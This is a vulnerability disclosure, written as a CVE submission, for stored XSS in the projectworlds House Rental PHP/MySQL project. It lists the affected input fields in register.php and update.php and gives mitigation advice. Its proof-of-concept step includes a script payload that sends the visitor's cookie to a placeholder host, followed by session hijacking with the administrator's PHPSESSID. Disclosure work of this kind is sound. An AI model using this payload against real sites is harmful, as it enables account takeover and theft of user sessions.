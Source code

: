 **CVE ID:** [Reserved ID - To be assigned by CNA]

---
### **CVE Submission**

**Title:** Stored Cross-Site Scripting (XSS) in House Rental and Property Listing Project PHP,MySQL v1.0 via `/app/list.php`

---

### **Overview**
A stored Cross-Site Scripting (XSS) vulnerability exists in the House Rental and Property Listing Project PHP,MySQL (v1.0) due to improper sanitization of user-supplied input in the registration module. An authenticated attacker can inject malicious JavaScript payloads into the application, which are then stored and executed when legitimate users access affected pages, leading to session hijacking, credential theft, or other client-side attacks.

---

### **Affected Products**
- **Product Name:** House Rental and Property Listing Project PHP,MySQL  
- **Vendor Homepage:** [projectworlds](https://projectworlds.in/free-projects/php-projects/house-rental-and-property-listing-project-php-mysql/)  
- **Affected Version:** v1.0  
- **Fixed Version:** Not patched as of [date] (Unknown)  
- **Vulnerable File:** `/app/list.php`  
- **Software Link:** [Download Source Code](https://projectworlds.in/wp-content/uploads/2019/06/home-rental.zip)  

---

### **Vulnerability Details**
- **CWE-ID:** CWE-79 - Improper Neutralization of Input During Web Page Generation  
- **Attack Vector:** Remote  
- **Impact:** Medium (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) 
- **Vulnerability Type:** Stored XSS  

**Technical Description:**  
The `/app/list.php` component fails to sanitize user-controllable input fields (`fullname`, `address`, or other registration room parameters) before storing them in the database. This allows attackers to inject arbitrary JavaScript code, which is rendered unsafely on pages accessible to other users (e.g., admin panels, property listings, or user profiles).

---

### **Proof of Concept (PoC)**
**Steps to Reproduce:**  

1. 需要先注册一个用户，然后登入到系统。

![image-20250313235009389](./image-20250313235009389.png)

2. Navigate to the registration page: `http://[target]/app/register.php`.  

3. Inject a malicious payload into a vulnerable input field (e.g., `<script>fetch('http://[ip]/?cookie=' + encodeURIComponent(document.cookie));</script>`).  

![image-20250313235954178](./image-20250313235954178.png)

3. Submit the registration  Room form.  

![image-20250314002029758](./image-20250314002029758.png)

4. The payload is stored in the database.  

5. When an administrator or user views the affected data (/app/list.php), the script executes.  然后获取到管理员的PHPSESSID.

![image-20250314000638889](./image-20250314000638889.png)

6. 使用管理员的PHPSESSID登陆系统。

![image-20250314001022390](./image-20250314001022390.png)

**Observed Result:**  

![image-20250314001207922](./image-20250314001207922.png)

**Expected Result:**  
User input should be sanitized to prevent script execution.  

### Vulnerability location:

1. /app/register.php
   - fullname
   - mobile
   - alternat_mobile
   - email
   - country
   - city
   - landmark
   - rent
   - sale
   - deposit
   - plot_number
   - rooms
   - state
   - address
   - address
   - description
   - image
   - open_for_sharing

2. /app/update.php
   - fullname
   - mobile
   - alternat_mobile
   - email
   - plot_number
   - rooms
   - country
   - stat
   - city
   - rent
   - sale
   - deposit
   - accommodation
   - description
   - landmark
   - address

---

### **Impact**
Successful exploitation allows:  
- Stealing session cookies or authentication tokens.  
- Redirecting users to phishing pages.  
- Performing actions on behalf of authenticated users.  
- Defacing the application interface.  

---

### **Mitigation Recommendations**
1. **Input Sanitization:** Implement strict input validation and output encoding (e.g., using `htmlspecialchars()` or `htmlentities()` in PHP).  
2. **Content Security Policy (CSP):** Deploy CSP headers to restrict inline scripts.  
3. **Database Sanitization:** Sanitize all user inputs before database insertion.  
4. **Framework Safeguards:** Use modern PHP frameworks (e.g., Laravel, Symfony) with built-in XSS protections.  

---

### **References**
- **Vendor Advisory:** Not available.  
- **Software Download:** [home-rental.zip](https://projectworlds.in/wp-content/uploads/2019/06/home-rental.zip)  
- **CWE Documentation:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html)  

---

### **Credits**
- **Submitter:** takakie  
- **Report Date:** [14/03/2025]  

